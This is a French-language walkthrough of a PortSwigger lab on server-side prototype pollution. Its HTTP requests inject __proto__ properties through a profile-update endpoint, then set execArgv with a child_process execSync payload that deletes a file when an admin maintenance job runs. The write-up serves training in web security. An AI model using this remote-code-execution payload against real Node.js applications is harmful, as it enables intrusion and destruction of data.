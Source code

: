 # Lab

https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution

## Solution

Sur ce lab, on a la possibilité de polluer le prototype objet grâce à la requête de modification de profil :

```http
POST /my-account/change-address HTTP/2
Host: 0aa200bf046344c68bb9e704002c0049.web-security-academy.net
Cookie: session=klHqoTfjVr63ZWCwQpO6A3FC7pRlBpiu
Content-Length: 295
Content-Type: application/json;charset=UTF-8

{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "klHqoTfjVr63ZWCwQpO6A3FC7pRlBpiu",
  "__proto__": {
    "foo": ["bar"]
  }
}
```

```http
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"128-bICQIu8D9vqKXRw3k4NauO+BmIg"
Date: Sat, 06 Jan 2024 00:08:18 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 296

{
  "username": "wiener",
  "firstname": "Peter",
  "lastname": "Wiener",
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "isAdmin": true,
  "foo": ["bar"]
}
```

On a aussi accès dans ce lab à une fonctionnalité admin de maintenance permettant d'éxécuter des tâches :

```http
POST /admin/jobs HTTP/2
Host: 0aa200bf046344c68bb9e704002c0049.web-security-academy.net
Cookie: session=klHqoTfjVr63ZWCwQpO6A3FC7pRlBpiu
Content-Length: 251
Content-Type: application/json;charset=UTF-8

{
  "csrf": "EHOFrMivwaEdL1EGUVk4SgO0aRAsp8O7",
  "sessionId": "klHqoTfjVr63ZWCwQpO6A3FC7pRlBpiu",
  "tasks": ["db-cleanup", "fs-cleanup"]
}
```

```http
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"9b-vSLPaDAopDKZgkvmHAZqtO9FzcY"
Date: Sat, 06 Jan 2024 00:06:15 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 155

{
  "results": [
    {
      "name": "db-cleanup",
      "description": "Database cleanup",
      "success": true
    },
    {
      "name": "fs-cleanup",
      "description": "Filesystem cleanup",
      "success": true
    }
  ]
}
```

Cette fonctionnalité peut indiquer qu'un child node est invoqué et qu'on peut donc exécuter du code arbitraire.

On va donc utiliser la fonctionnalité de modification de profil pour polluer le prototype objet et ajouter `execArgv` :

```http
POST /my-account/change-address HTTP/2
Host: 0aa200bf046344c68bb9e704002c0049.web-security-academy.net
Cookie: session=klHqoTfjVr63ZWCwQpO6A3FC7pRlBpiu
Content-Length: 295
Content-Type: application/json;charset=UTF-8

{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "klHqoTfjVr63ZWCwQpO6A3FC7pRlBpiu",
  "__proto__": {
    "execArgv": [
      "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
  }
}
```

On voit dans la réponse que le prototype a bien été pollué :

```http
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"128-bICQIu8D9vqKXRw3k4NauO+BmIg"
Date: Sat, 06 Jan 2024 00:08:18 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 296

{
  "username": "wiener",
  "firstname": "Peter",
  "lastname": "Wiener",
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "isAdmin": true,
  "execArgv": [
    "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
  ]
}
```

Maintenant si on relance la fonctionnalité de maintenance, on voit que le fichier a bien été supprimé et le lab validé.